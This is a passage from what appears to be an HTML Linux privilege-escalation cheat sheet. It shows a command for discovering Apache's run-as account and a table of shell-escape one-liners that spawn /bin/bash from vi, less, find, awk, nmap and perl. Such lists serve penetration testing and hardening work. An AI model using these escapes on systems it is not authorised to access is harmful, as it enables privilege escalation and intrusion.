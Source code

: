 <td width="46%"><span style="font-family: Arial, sans-serif;"><code>cat /etc/apache2/envvars 2&gt;/dev/null |grep -i 'user|group' |awk '{sub(/.*export /,"")}1'</code></span><span style="font-family: Arial, sans-serif;"></span><p></p>
</td><td width="54%"><span style="font-family: Arial, sans-serif;">Which account is Apache running as</span></td>
</tr>
</tbody>
</table>
<p>&nbsp;</p>
<p><span style="font-family: Arial, sans-serif;"><b>Common Shell Escape Sequences:</b></span></p>
<table border="1" width="100%" cellspacing="0" cellpadding="10">
<colgroup>
<col width="117">
<col width="139"> </colgroup>
<tbody>
<tr valign="TOP">
<td width="46%"><span style="font-family: Arial, sans-serif;"><b>Command</b></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;"><b>Program(s)</b></span></td>
</tr>
<tr valign="TOP">
<td width="46%" height="1"><span style="font-family: Arial, sans-serif;"><code>:!bash</code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">vi, vim</span></td>
</tr>
<tr valign="TOP">
<td width="46%" height="1"><span style="font-family: Arial, sans-serif;"><code>:set shell=/bin/bash</code></span><span style="font-family: Arial, sans-serif;"><code>:shell</code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">vi, vim</span></td>
</tr>
<tr valign="TOP">
<td width="46%" height="1"><span style="font-family: Arial, sans-serif;"><code>!bash</code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">man,&nbsp;</span><span style="font-family: Arial, sans-serif;">more,&nbsp;</span><span style="font-family: Arial, sans-serif;">less</span></td>
</tr>
<tr valign="TOP">
<td width="46%" height="1"><span style="font-family: Arial, sans-serif;"><code>find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; </code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">find</span></td>
</tr>
<tr valign="TOP">
<td width="46%" height="1"><span style="font-family: Arial, sans-serif;"><code>awk 'BEGIN {system("/bin/bash")}'</code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">awk</span></td>
</tr>
<tr valign="TOP">
<td width="46%" height="1"><span style="font-family: Arial, sans-serif;"><code>--interactive</code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">nmap</span></td>
</tr>
<tr valign="TOP">
<td width="46%"><span style="font-family: Arial, sans-serif;"><code>perl -e 'exec "/bin/bash";'</code></span></td>
<td width="54%"><span style="font-family: Arial, sans-serif;">Perl</span></td>
</tr>
</tbody>
</table>
<p>&nbsp;</p>
<p>A special thanks to the following useful resources:</p>
<ul>
<li><a href="http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation.html" target="_blank"><span style="line-height: 13px;">g0tm1lk</span></a></li>